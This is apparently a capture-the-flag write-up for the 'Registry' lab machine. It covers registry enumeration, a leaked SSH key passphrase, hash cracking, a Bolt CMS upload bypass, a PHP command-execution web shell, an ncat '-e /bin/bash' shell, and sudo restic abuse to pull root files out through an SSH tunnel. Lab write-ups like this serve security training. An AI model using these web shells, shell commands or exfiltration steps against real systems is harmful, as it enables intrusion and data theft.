


First start with an Nmap scan


```
# nmap -sV -sC -T4 -p- 10.10.10.159
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-19 20:22 EST
Nmap scan report for docker.registry.htb (10.10.10.159)
Host is up (0.020s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title.
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.41 seconds
```
Only a few ports open. I see port 80 and 443 open so I run a gobuster on both and only find a few directories. I also so that there is a subdomain `docker.registry.htb` in the nmap scan.
```
# gobuster dir -u http://10.10.10.159 -u /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 30
/index.html (Status: 200) [Size: 612]
/install (Status: 301) [Size: 194]
/backup.php (Status: 200) [Size: 0]
/bolt (Status: 301) [Size: 194
```
Navigating to `http://10.10.10.159/install` gives me some strange output.



I used wget to download the data to a file and when I ran the file  command against it I saw that it was actually a gzip compressed file.
```
# file index.html 
index.html: gzip compressed data, last modified: Mon Jul 29 23:38:20 2019, from Unix, original size modulo 2^32 167772200 gzip compressed data, reserved method, has CRC, was "", from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 167772200
```
Now by renaming index.html to index.tgz I can extract the files inside. Doing that I find two files inside, ca.crt and readme.md. Taking a look at the readme gives me two links on how to set up a private docker registry and the ca.crt file is most likely used to allow me to pull from the registry. 

One way this can be done without even using the ca.crt file is manually downloading all of the fsLayers and then enumerating them one by one. Navigate to docker.registry.htb/v2/bolt-image/manifests/latest to download a text file that has a list of all the layers among other things. 
```
"schemaVersion": 1,
   "name": "bolt-image",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      {
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
      },
      {
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
   ],
<output omitted>
```
Now each "blobSum" is a separate file which needs to be downloaded manually. That can be done by navigating to `https://docker.registry.htb/v2/bolt-image/blobs/sha256:<hash>`. A login prompt may/may not appear again so just enter the credentials `admin:admin` again. After each one was downloaded, I moved them to a separate folder and then extracted each file and started enumerating. It only took a few minutes before I found what I was looking for.

Inside of the `sha256_2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791` directory there is a root folder where I can read the .bash_history. In there it mentions a file called `01-ssh.sh` now if I just use the `find` command to locate the file and then `cat` it I see I get a password to what looks like the ssh private key
```
#cat profile.d/01-ssh.sh

#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Next I used the `find` command once again to locate the `id_rsa` file. Inside the `.ssh` directory where the key is located there is a config file that lists a user `bolt` that we can use to ssh as.
```
# cat config 
Host registry
  User bolt
  Port 22
  Hostname registry.htb
```
I then use the key to ssh in as the user bolt. When it prompts me for a password I enter the one that I found earlier. I have now successfully logged in as the user `bolt`
```
# ssh -i id_rsa bolt@registry.htb
The authenticity of host 'registry.htb (10.10.10.159)' can't be established.
ECDSA key fingerprint is SHA256:G1J5ek/T6KuCCT7Xp2IN1LUslRt24mhmhKUo/kWWVrs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb,10.10.10.159' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Nov 20 05:21:02 UTC 2019

  System load:  0.0               Users logged in:                0
  Usage of /:   5.7% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 30%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   2%                IP address for docker0:         172.17.0.1
  Processes:    157
Last login: Wed Nov 20 04:33:47 2019 from 10.10.14.14
bolt@bolt:~$ 
```
From here I can read the `user.txt` file
```
bolt@bolt:~$ cat user.txt 
ytc0ytdmnzywnzg****************
```
Next I do some manual enumeration and find a `bolt.db` file located at `/var/www/html/app/database/bolt.db`.  I can read the file using `sqlite3` and doing that I will find an admin password hash. I can crack that hash using hashcat.
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
```
Now I had gobuster running in the background which found a login page at `http://10.10.10.159/bolt/bolt/login`. I can use these credentials `admin:strawberry` to login here. Once logged in I am greeted with a simple dashboard. On the left side I saw a `File Management` section and thought to upload a reverse php shell and saw that php was not one of the approved file types.

Also on the left hand side there is a `Configuration` section where I can edit the main configuration. In there I scrolled down until I found the accepted file typed and added php as one of the file types.



The first thing I tried was to upload a regular php reverse shell but when I tried to trigger it by navigating to `http://10.10.10.159/bolt/files/shell.php` it executed but my listener never caught the shell. After several tries I came to the conclusion that there must be something blocking outbound connections so I what I did was upload a small php script that allows me to do RCE so I could then execute the `ncat` command to listen for an inbound connection.

Here is the basic php code.
```
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
Then I navigated to `http://10.10.10.159/bolt/files/index.php?cmd=ncat -lvnp 9999 -e /bin/bash` to set the listener on the box and then on my host machine I entered `nc 10.10.10.159 9999`  to connect and with that I now had a shell as `www-data`

Running `sudo -l`  will show that I am able to run a command as root which leads me to believe this is the intended path to exploit
```
www-data@bolt:~$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```
Now figuring out how to exploit this took me a long time, mostly because I can't send traffic out. After many failed attempts and a lot of frustration I finally came to the conclusion that I needed to host the rest server on my host machine and then use SSH port forwarding to forward the port the server runs on to the box and use the tunnel to exfiltrate the data.

First I need to set up the rest server, I will do this using docker. First I pull the docker image from Docker Hub
```
# docker pull restic/rest-server
```
Then I start up the rest-server
```
# docker run -p 8000:8000 -v /my/data:/data --name rest_server -e DISABLE_AUTHENTICATION='foo' restic/rest-server
rest-server 0.9.7 compiled with go1.10 on linux/amd64
Data directory: /data
Authentication disabled
Private repositories disabled
Starting server on :8000
```
Now I set up the SSH port forwarding where I will forward the server running on port 8000 on my host machine to port 8000 on the box.
```
# ssh -R 8000:localhost:8000 -i id_rsa bolt@registry.htb
```
First I create the new repository on the server
```
www-data@bolt:~$ restic -r rest:http://localhost:8000/data init
```
Now with the repository created I can use the sudo privileges to copy over the root.txt  over to the rest-server
```
www-data@bolt:~$ sudo /usr/bin/restic backup -r rest:http://localhost:8000/data /root/root.txt
enter password for repository: 
password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
using parent snapshot e0c30d3f
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 691d2202 saved
```
Now to read the file I first list the snapshots to get the snapshot ID of the file.
```
# restic -r rest:http://localhost:8000/data snapshots
enter password for repository: 
repository 2120a039 opened successfully, password is correct
ID        Time                 Host        Tags        Paths
---------------------------------------------------------------------
691d2202  2019-11-22 23:27:01  bolt                    /root/root.txt
---------------------------------------------------------------------
```
Then I extract the file to my current working directory
```
# restic -r rest:http://localhost:8000/data restore 691d2202 --target .
enter password for repository: 
repository 2120a039 opened successfully, password is correct
restoring <Snapshot 691d2202 of [/root/root.txt] at 2019-11-23 04:27:01.214716163 +0000 UTC by root@bolt> to .
```
Now I can read the `root.txt` file
```
# cat root.txt 
ntrkzgnkotaxyju0***************
```
